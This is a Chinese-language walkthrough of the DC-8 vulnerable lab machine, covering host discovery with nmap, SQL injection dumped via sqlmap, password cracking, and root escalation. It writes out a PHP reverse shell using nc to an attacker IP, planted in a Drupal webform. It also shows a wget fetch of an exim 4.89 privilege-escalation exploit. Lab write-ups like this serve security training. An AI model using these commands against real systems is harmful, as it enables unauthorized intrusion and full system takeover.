# 信息搜集

## 主机发现

```
nmap -sn 192.168.182.0/24
nmap -sS 192.168.182.149
```



访问80端口



# 数据库攻击

点击Who We Are 

发现url出现nid=2，加个单引号试试，发现sql注入



用sqlmap跑，当然这里就是一个union的整形注入,手工注入也可以

```bash
sqlmap -u http://192.168.182.149/?nid=1  -D d7db -T users -C "name,pass" --dump #爆数据
```



+-------+---------------------------------------------------------+
| name  | pass                                                    |
+-------+---------------------------------------------------------+
| admin | $S$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z |
| john  | $S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF |
+-------+---------------------------------------------------------+

## 破解密码

有个john用户,估计是要让我们破解john的密码



成功登录



# Getshell

到处乱找找到了可以添加代码的地方

在Add content–>Webform去添加webshell



但是找不到路劲,无法执行php代码

改为反弹shell

```php
<?php
system("nc -e /bin/bash 192.168.182.137 2333");
 ?>
```

然后发现代码需要提交表单才能执行,只有又去修改Contact Us里的WEBFORM



然后提交表单



但是一直成功不了,我也不知道为什么,加了个<p></p>标签后退出登录提交表单又成功了

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

进入交互模式

# 提权

去home目录下看了发现没有东西

然后 sudo -l 不行

查看具有root权限的命令

```
find / -perm -u=s -type f 2>/dev/null
```



发现exim4,--version查看版本为4.89

本地找一下发现有一个可以提权的漏洞



本地开启8000端口

```
python -m SimpleHTTPServer 8000
```

使用wget下载，发现只有在tmp目录下有权限

```
www-data@dc-8:/tmp$ wget http://192.168.182.137:8000/46996.sh 
```

使用中报错了，需要对exp脚本进行编码

```
vim 46996.sh       #应该是回kali中进行编码,然后重新下载,我在获取的shell中修改还是报错

:set ff=unix

:wq
```

然后加权限

```
chmod +777 46996.sh
```

按照脚本中所说的 加 -m netcat 成功获取root权限

